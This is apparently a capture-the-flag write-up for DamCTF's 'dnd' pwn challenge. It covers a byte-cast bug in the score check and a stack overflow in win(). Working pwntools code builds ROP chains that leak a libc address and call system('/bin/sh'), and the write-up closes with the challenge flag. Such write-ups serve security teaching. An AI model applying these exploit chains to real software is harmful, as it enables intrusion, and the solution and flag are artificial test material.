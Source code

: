 # dnd

## 🧩 Challenge Summary

- **Category**: Pwn
- **Points**: 404
- **Solves**: 150 teams

---

### 📝 Problem Description

> Dungeons and Dragons is fun, but this is DamCTF! Come play our version

---

## 🧠 Challenge Structure

Protections:

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Canary:   No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
SHSTK:    Enabled
IBT:      Enabled
Stripped: No
```

- The player can go through up to 5 combat encounters.
- Each turn allows choosing between `[a]ttack` or `[r]un`.
- If the player's **score drops below 0**, the following condition is bypassed due to type casting.
- Once bypassed, the `win()` function is executed, which contains a buffer overflow.

This setup enables a controlled path to ROP exploitation by manipulating the score and overflowing the stack.

---

## ✅ Exploitation Flow

### 🔹 Step 1: Abuse Signed-to-Unsigned Cast to Trigger `win()`

The player can intentionally lose to strong monsters to decrease the score below 0.
In the `DidWin()` function, the condition:

```cpp
bool __fastcall Game::DidWin(Game *this)
{
  return *(_BYTE *)this > 0x63u;  // e.g., -1 becomes 0xFF and bypasses the check
}
```

...will be satisfied because a negative score like `-1` is cast to an unsigned byte (`0xFF`). This causes the program to execute `win()`.

```python
def fight_loop(r):
    flag = False

    for _ in range(5):
        r.recvuntil(b"New")
        r.recvuntil(b"(")
        mob_hp = int(r.recv(1).decode())

        if not flag and mob_hp > 5:
            flag = True
            r.sendlineafter(b"[r]un? ", b"a")  # intentionally take the hit
        else:
            r.sendlineafter(b"[r]un? ", b"r")  # skip weak mobs
```

---

### 🔹 Step 2: Exploit win() via ROP

In the `win()` function, input is read via an unsafe `fgets()` call:

```cpp
__int64 win(void)
{
  char s[32]; // [rsp+0h] [rbp-60h] BYREF

  fgets(s, 256, _bss_start);
}
```

A padding of `0x68` bytes is needed to reach the return address.

#### 🔸 Leak libc Address

ROP chain leaks the `puts@got` address and returns to `win()` for a second stage:

```python
def leak_libc_base(r):
    rop = ROP(elf)
    rop.raw(b"A" * 0x68)              # padding
    rop.raw(pop_rdi_rbp)              # pop rdi; pop rbp; ret
    rop.raw(elf.got.puts)             # puts@got
    rop.raw(b"B" * 8)                 # dummy for rbp
    rop.raw(elf.sym.puts)             # call puts
    rop.raw(elf.sym._Z3winv)          # return to win() for second input

    r.sendlineafter(b"warrior? ", rop.chain())
    r.recvline()

    leaked_puts = u64(r.recvline().strip().ljust(8, b"\x00"))
    libc.address = leaked_puts - libc.sym.puts
```

> 🔎 Note: `elf.sym._Z3winv` is the mangled name for the C++ `win()` function.

#### 🔸 Get Shell

With the libc base known, spawn a shell using `/bin/sh` and `system()`:

```python
def get_shell(r):
    rop = ROP(elf)
    rop.raw(b"A" * 0x68)
    rop.raw(pop_rdi_rbp)
    rop.raw(next(libc.search(b"/bin/sh")))
    rop.raw(b"B" * 8)
    rop.raw(rop.ret)                 # stack alignment
    rop.raw(libc.sym.system)

    r.sendlineafter(b"warrior? ", rop.chain())
    r.interactive()
```

---

## 🏁 Flag

After successful exploitation:

```
$ cat flag
dam{w0w_th0s3_sc4ry_m0nster5_are_w3ak}
```
